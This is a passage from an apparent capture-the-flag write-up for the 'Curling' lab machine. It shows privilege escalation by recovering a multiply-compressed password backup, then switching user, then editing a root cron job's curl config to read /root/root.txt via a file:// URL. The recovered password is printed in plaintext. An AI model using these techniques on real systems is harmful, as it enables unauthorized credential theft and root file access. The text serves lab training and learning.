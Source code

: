 # 15 - PrivEsc



# Home
```bash
www-data@curling:/home/floris$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```

Once we get in the box we come across two interesting files in floris's home. password_backup is most likely xxd dump of a password. Let's recover the file and inspect it since we don't have read permission on admin-area just yet, we will hold it off for a while.

# password_backup recover
```bash
www-data@curling:/dev/shm$ xxd -r password_backup  > password
www-data@curling:/dev/shm$ file password
password: bzip2 compressed data, block size = 900k
www-data@curling:/dev/shm$ mv password password.bzip2
www-data@curling:/dev/shm$ bzip2 -d password.bzip2
bzip2: Can\'t guess original name for password.bzip2 -- using password.bzip2.out
www-data@curling:/dev/shm$ file password.bzip2.out 
password.bzip2.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/dev/shm$ mv password.bzip2.out password.gz                                         
www-data@curling:/dev/shm$ gunzip  password.gz 
www-data@curling:/dev/shm$ file password
password: bzip2 compressed data, block size = 900k
www-data@curling:/dev/shm$ mv password password.bzip2
www-data@curling:/dev/shm$ bzip2 -d password.bzip2 
bzip2: Can\'t guess original name for password.bzip2 -- using password.bzip2.out
www-data@curling:/dev/shm$ file password.bzip2.out  
password.bzip2.out: POSIX tar archive (GNU)
www-data@curling:/dev/shm$ tar xvf password.bzip2.out 
password.txt
www-data@curling:/dev/shm$ cat password.txt 
5d<wdCbdZu)|hChXll

```

Seemingly, password is compressed several times. Lateral movement is pretty straightforward.

# floris
```bash
www-data@curling:/dev/shm$ su - floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:~$
```

Now it's time to check out the other directory admin-area.

# admin-area

```bash
floris@curling:~/admin-area$ ls -l
total 20
-rw-rw---- 1 root floris    25 Aug 30 17:15 input
-rw-rw---- 1 root floris 16360 Aug 30 17:15 report
```

The time on both files are the same that means they are related.

# input
```bash
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

It looks like a simple url. We have write access to this file, let's keep that in mind.


# report
```html
floris@curling:~/admin-area$ head report 
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
        <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

It is the same response we got from the joomla server. There is probably a cronjob handling these two files. We want to know more about them.

# PsPy64s
![](vx_images/3803632241787.png)

curl is executing every minute, it is reading its configuration from *input* then  writes the output to report. We can abuse this feature to read any local file because curl is executing as root and we have write access to its configuration. Configuration abuse is pretty simple, in order to read local files with curl, all you have to do is use the **file://** prefix.


# Root Flag
```bash
floris@curling:~/admin-area$ cat input 
url = "file:///root/root.txt"
```


# watch -n 1 cat report
![](vx_images/5204797850592.png)